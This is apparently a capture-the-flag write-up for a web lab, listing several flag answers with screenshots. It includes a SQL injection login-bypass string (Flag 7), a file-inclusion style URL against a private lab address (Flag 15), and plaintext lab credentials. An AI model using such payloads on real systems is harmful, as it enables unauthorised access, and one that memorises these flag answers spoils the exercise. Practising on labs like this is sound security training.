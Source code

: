 ## Advanced

### Flag 7:

![image](https://github.com/user-attachments/assets/d116efc3-3782-4a70-b251-40c18580b1ce)
</br>
```shell
admin

password' OR '1'='1

bcs92sjsk233
```

### Flag 15: 

![image](https://github.com/user-attachments/assets/6e3eb3e4-c97f-4dba-aba2-ebbcc436c4a5)
</br>
```shell
192.168.14.35/disclaimer.php?page=old_disclaimers/disclaimer_1.txt

dksdf7sjd5sg
```

### Flag 12: 

![image](https://github.com/user-attachments/assets/207457c0-ed4f-4ba1-b59c-608f5d0f7c22)
</br>
```shell
username: melina

password: melina

hsk23oncsd
```

### Flag 4: 

![image](https://github.com/user-attachments/assets/617fb66a-eeb7-496b-a09f-9bf9ccb1ea69)
</br>
```shell
nckd97dk6sh2
```

### Flag 14: 

![image](https://github.com/user-attachments/assets/dd799d73-3210-47c3-9dbb-42d7d5979051)
![image](https://github.com/user-attachments/assets/cb850488-67ec-4fb2-9246-00cc30ebc0ff)
![image](https://github.com/user-attachments/assets/f542f248-60f7-4c37-ad32-5f39f429cc29)
![image](https://github.com/user-attachments/assets/5857bf1e-874a-40de-b3bc-f81fe51a0480)
</br>
```shell
dks93jdlsd7dj
```

